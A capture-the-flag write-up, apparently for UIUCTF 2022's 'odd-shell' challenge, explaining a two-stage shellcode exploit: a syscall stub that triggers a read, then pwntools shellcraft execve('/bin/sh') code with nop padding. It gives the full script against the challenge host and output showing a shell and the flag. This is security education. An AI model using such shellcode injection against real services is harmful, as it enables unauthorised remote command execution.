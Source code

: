I assemble the syscall for the read instruction in stage 1

For stage 2 I use pwntools' shellcraft module to get an execve("/bin/sh", [], []) payload

Importantly, since the syscall read I am using to send this payload has a pointer to the start of the allocation and the instruction pointer after the syscall finishes will be 2 bytes after the start of the allocation I need to pad my shellcode with some data, so I added two nops as filler 

Now I can start the process using pwntools' process (wrapper for the python subprocess module)
```python
p = process("./chal")
```
And send my shellcodes to the challenge
```python
p.sendline(stage1)
p.clean()
p.sendline(stage2)
```
Note the p.clean(), if both stages of the payload are sent one after the other without any delay then the payloads may end up be received by the process as a single payload, which would cause the stage2 payload to be be subject to the odd bytes restrictions 

Calling clean() seems to add enough delay to prevent this but it could be substituted for a sleep 

All that is left now is to use the shell we just created
```python
p.interactive()
```
And substitute the local process for a remote process
```python
p = remote("odd-shell.chal.uiuc.tf", 1337)
```

Putting it all together:
```python
from pwn import *

context.arch = "amd64"

stage1 = asm("syscall")
stage2 = asm("nop;" * 2 + shellcraft.sh())

p = remote("odd-shell.chal.uiuc.tf", 1337)

p.sendline(stage1)
p.clean()
p.sendline(stage2)

p.interactive()
```
Running the script and cat-ing the flag:
```
zolutal@Ubuntu:~/ctf/ctf-writeups/2022/uiuctf/odd-shell$ python x.py
[+] Opening connection to odd-shell.chal.uiuc.tf on port 1337: Done
[*] Switching to interactive mode
== proof-of-work: disabled ==
Display your oddities:
$ cat /flag
uiuctf{5uch_0dd_by4t3s_1n_my_r3g1st3rs!}
```

Thank you!
